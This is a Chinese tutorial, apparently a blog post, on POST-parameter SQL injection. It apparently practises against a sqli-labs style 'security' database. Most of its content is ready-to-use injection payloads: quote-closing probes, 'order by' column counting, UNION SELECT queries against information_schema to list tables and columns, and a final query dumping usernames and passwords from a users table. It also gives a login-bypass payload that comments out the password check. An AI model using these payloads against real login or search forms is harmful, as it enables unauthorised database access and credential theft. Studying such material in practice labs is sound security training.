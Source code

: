 # 原创
：  【SQL注入】POST注入：高危点、利用过程

# 【SQL注入】POST注入：高危点、利用过程

**目录**

[一、简介：](#%E4%B8%80%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A)

[1.1、方法：](#1.1%E3%80%81%E6%96%B9%E6%B3%95%EF%BC%9A)

[1.2、高危点：](#1.2%E3%80%81%E9%AB%98%E5%8D%B1%E7%82%B9%EF%BC%9A)

[二、利用过程1：](#%E4%BA%8C%E3%80%81%E5%88%A9%E7%94%A8%E8%BF%87%E7%A8%8B%EF%BC%9A)

[ 2.1、第一步：判断是否存在SQL漏洞](#2.1%E3%80%81%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A%E5%88%A4%E6%96%AD%E6%98%AF%E5%90%A6%E5%AD%98%E5%9C%A8SQL%E6%BC%8F%E6%B4%9E)

[2.2、第二步：判断字段数](#2.2%E3%80%81%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A%E5%88%A4%E6%96%AD%E5%AD%97%E6%AE%B5%E6%95%B0)

[2.3、第三步：判断回显点](#2.3%E3%80%81%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E5%88%A4%E6%96%AD%E5%9B%9E%E6%98%BE%E7%82%B9)

[2.4、第四步：查询当前数据库](#2.4%E3%80%81%E7%AC%AC%E5%9B%9B%E6%AD%A5%EF%BC%9A%E6%9F%A5%E8%AF%A2%E5%BD%93%E5%89%8D%E6%95%B0%E6%8D%AE%E5%BA%93)

[2.5、第五步：查表名](#2.5%E3%80%81%E7%AC%AC%E4%BA%94%E6%AD%A5%EF%BC%9A%E6%9F%A5%E8%A1%A8%E5%90%8D)

[2.6、第六步：查字段](#2.6%E3%80%81%E7%AC%AC%E5%85%AD%E6%AD%A5%EF%BC%9A%E6%9F%A5%E5%AD%97%E6%AE%B5)

[2.7、第七步：查数据](#2.7%E3%80%81%E7%AC%AC%E4%B8%83%E6%AD%A5%EF%BC%9A%E6%9F%A5%E6%95%B0%E6%8D%AE)

[三：利用过程2](#%E4%B8%89%EF%BC%9A%E5%88%A9%E7%94%A8%E8%BF%87%E7%A8%8B2)

[简介：](#%E7%AE%80%E4%BB%8B%EF%BC%9A)

[过程：](#%E8%BF%87%E7%A8%8B%EF%BC%9A)

[第一步：](#%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A)

[第二步：](#%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A)

[第三步：](#%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A)

---


## 一、简介：

> 
<h3>1.1、方法：</h3>
使用`POST`进行传入参数的注入（输入框中注入）
能达到的效果更明显
GET中注释使用--+
POST中注释使用#
<hr/>
<h3>1.2、高危点：</h3>
交互框：
登录框
查询框
各种和数据库有交互的框


### 1.2、高危点：

---


---


## 二、利用过程1：

> 
<h3> 2.1、第一步：判断是否存在SQL漏洞</h3>
在输入框中填入一些闭合的符号，看页面是否异常
如： ’        "          ')          ")
当页面发生错误，则证明闭合有效
有时单双引号闭合后，还要考虑括号个数
<hr/>
<h3>2.2、第二步：判断字段数</h3>
例如：
”)order by 3#
当回显正确的时候，就判断出字段数
<hr/>
<h3>2.3、第三步：判断回显点</h3>
使用union 联合查询找到回显点
例如：
") union select 1,2,3#
<hr/>
<h3>2.4、第四步：查询当前数据库</h3>
例如：
") union select 1,database(),3#
<hr/>
<h3>2.5、第五步：查表名</h3>
例如：
") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=“security” #
<hr/>
<h3>2.6、第六步：查字段</h3>
例如：
") union select 1,2,group_concat(column_name) from information_schema.columns where table_name=“users” #
<hr/>
<h3>2.7、第七步：查数据</h3>
例如：
")union select 1,username,password from users where id=2 #



### 2.2、第二步：判断字段数

---


### 2.4、第四步：查询当前数据库

---


### 2.6、第六步：查字段

---


---


---


## 三：利用过程2

> 
<h3>简介：</h3>
在代码中，账号输入框和密码输入框是连着的
在第一个代码框最后注释掉后面内容后，就不需要输入密码了


> 
<h3>过程：</h3>
<h4>第一步：</h4>
还是先找是不是有注入点
输入了一个单引号显示错误，说明可能存在注入点，符号可能为单引号


<hr/>

<h4>第二步：</h4>
点击post date输入
uname=admin' and 1=1#&amp;passwd=admin&amp;submit=Submit
（或者在第一个框输入admin' and 1=1#  第二个框输入admin  最后点击submit）

<hr/>

<h4>第三步：</h4>
执行其他读取修改数据等操作（常规操作了）
例如
admin' and 1=2 union select 1,database()# 


猜显示位数，获取数据库，获取表名，获取列名，获取数据
<blockquote>
①uname=admin' and 1=2 union select 1,2 #&amp;passwd=admin&amp;submit=Submit
②uname=admin' and 1=2 union select database(),2 #&amp;passwd=admin&amp;submit=Submit
③uname=admin' and 1=2 union select group_concat(table_name),2 from information_schema.tables where table_schema=database()#&amp;passwd=admin&amp;submit=Submit
④uname=admin' and 1=2 union select group_concat(column_name),2 from information_schema.columns where table_schema=database() and table_name='users'#&amp;passwd=admin&amp;submit=Submit
⑤uname=admin' and 1=2 union select username,password from users #&amp;passwd=admin&amp;submit=Submit


#### 第一步：

---


#### 第三步：
